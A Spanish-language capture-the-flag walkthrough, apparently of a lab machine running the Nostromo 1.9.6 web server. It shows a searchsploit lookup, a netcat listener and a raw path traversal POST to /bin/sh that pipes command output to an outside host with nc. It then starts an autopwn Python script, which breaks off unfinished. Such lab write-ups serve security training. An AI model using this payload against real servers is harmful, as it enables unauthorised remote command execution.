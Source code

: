 Chequeamos si existe un exploit relacionado con **nostromo 1.9.6**

```bash
searchsploit nostromo 
```

Hay un script en Python que permitiria hacer ejecucion de comandos. Nos traemos el script en el repertorio de trabajo.

```bash
searchsploit -m 47837
mv 47837.py nostromo_exploit.py
```

Analizando el script con `cat`, vemos como se uza el exploit. Intentamos reproducir los pasos antes de crearnos nuestro
proprio script.

1. En una terminal

    ```bash
    nc -nlvp 443
    ```

1. En otra terminal

    ```bash
    telnet 10.10.10.165 80
    POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0
    Content-Length: 1

    whoami | nc 10.10.14.20 443
    ```

Se ve `www-data` en la primera terminal.

Ya podemos crearnos el script.




## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Autopwn.py {-}

```python
#!/usr/bin/python3

import requests
import sys
import signal
import pdb
import threading
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.165/.%0d./.%0d./.%0d./.%0d./bin/sh"
lport = 443

def makeRequest():

```